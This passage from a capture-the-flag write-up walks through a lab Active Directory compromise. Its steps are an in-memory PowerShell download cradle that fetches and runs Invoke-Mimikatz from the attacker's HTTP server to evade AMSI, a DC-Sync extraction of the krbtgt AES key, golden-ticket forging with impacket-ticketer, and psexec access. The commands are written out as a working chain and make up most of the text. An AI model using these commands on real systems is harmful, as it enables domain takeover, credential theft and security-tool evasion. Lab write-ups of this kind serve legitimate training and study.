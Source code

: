 -   Initially I tried to generate a ticket just using the KRBTGT NT hash however this was revoked (expected) however we can get around this by extracting the AESKEY using mimikatz and extracting a creating a ticket
-   To avoid AMSI I decide to use [invoke-mimikatz](https://github.com/g4uss47/Invoke-Mimikatz) this means I can use a download cradle to load the script directly into memory without needing to download anything onto the host itself.
-   +Deep Dive+: I have a deep dive into download cradles and how they work: 
    -   https://bloodstiller.com/articles/understandingdownloadcradles/

-   **I stand up my python server**:
    -   `python3 -m http.server 9000`
    -   {{< figure src="/ox-hugo/2024-11-10-134523_.png" >}}
    -   +Note+: I have the above command aliased to `pws` for ease on my machine.



-   **On the target from an evil-winrm admin shell I use a download cradle to load the sript into memory**:
    -   `iex(new-object net.webclient).downloadstring('http://10.10.14.24:9000/Invoke-Mimikatz.ps1')`
    -   {{< figure src="/ox-hugo/2024-11-10-134628_.png" >}}
    -   +Note+: This will hang for a little bit, so just be patient.


### Using invoke-mimikatz to perform a targeted DC-Sync attack to extract the KRBTGT AES hash: {#using-invoke-mimikatz-to-perform-a-targeted-dc-sync-attack-to-extract-the-krbtgt-aes-hash}

-   **Lets perform a DC-SYNC attack targeting the krbtgt user and extract their aes hash**:
    -   `Invoke-Mimikatz -Command '"privilege::debug" "lsadump::dcsync /user:krbtgt /domain:administrator.htb"'`
    -   {{< figure src="/ox-hugo/2024-11-10-135022_.png" >}}
    -   +Note+: We already have the this AES hash from `secretsdump` but I wanted to demo how it can extracted using invoke-mimikatz/mimikatz &amp; a download cradle.


### Creating our golden-ticket using impacket-ticketer: {#creating-our-golden-ticket-using-impacket-ticketer}

-   **We can now create our ticket**:
    -   `impacket-ticketer -aesKey $aesKey -domain-sid $sid -domain $domain administrator`
    -   {{< figure src="/ox-hugo/2024-11-10-135257_.png" >}}

-   **Load into memory**:
    -   `export KRB5CCNAME=./administrator.ccache`


### Connecting via PSEXEC with our golden-ticket: {#connecting-via-psexec-with-our-golden-ticket}

-   **Access the host**:
    -   `impacket-psexec -k -no-pass $machine.$domain`
    -   {{< figure src="/ox-hugo/2024-11-10-140540_.png" >}}


#### Why create a golden ticket? {#why-create-a-golden-ticket}
